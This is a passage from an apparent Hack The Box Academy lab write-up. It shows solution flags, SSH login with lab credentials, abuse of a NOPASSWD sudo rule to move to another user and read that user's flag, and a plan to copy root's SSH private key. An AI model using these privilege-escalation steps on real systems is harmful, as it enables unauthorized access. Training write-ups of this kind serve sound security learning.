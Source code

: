 
**Results**: HTB{my_f1r57_h4ck}


#### [Privilege Escalation](https://academy.hackthebox.com/module/77/section/844)

**SSH to $ip with user "user1" and password "password1". SSH into the server above with the provided credentials, and use the '-p xxxxxx' to specify the port shown above. Once you login, try to find a way to move to 'user2', to get the flag in '/home/user2/flag.txt'.**

```
ssh user1@$ip -p 31459
# password1

sudo -l
# User user1 may run the following commands on
#        ng-644144-gettingstartedprivesc-udbk3-5969ffb656-cp248:
#    (user2 : user2) NOPASSWD: /bin/bash

# One way: 
echo #!/bin/bash > lala.sh
echo cat /home/user2/flag.txt >> lala.sh
chmod +x lala.sh
sudo -u user2  /bin/bash lala.sh

# Another
sudo -u user2 /bin/bash -i
```


**Results**:  HTB{l473r4l_m0v3m3n7_70_4n07h3r_u53r}


**Once you gain access to 'user2', try to find a way to escalate your privileges to root, to get the flag in '/root/flag.txt'.**

Once you are user2, go to /root:

```
cd /root
ls -la
```


```
drwxr-x--- 1 root user2 4096 Feb 12  2021 .
drwxr-xr-x 1 root root  4096 Jun  3 19:21 ..
-rwxr-x--- 1 root user2    5 Aug 19  2020 .bash_history
-rwxr-x--- 1 root user2 3106 Dec  5  2019 .bashrc
-rwxr-x--- 1 root user2  161 Dec  5  2019 .profile
drwxr-x--- 1 root user2 4096 Feb 12  2021 .ssh
-rwxr-x--- 1 root user2 1309 Aug 19  2020 .viminfo
-rw------- 1 root root    33 Feb 12  2021 flag.txt

```

So we have read access in .ssh folder. We can access and copy the private key 
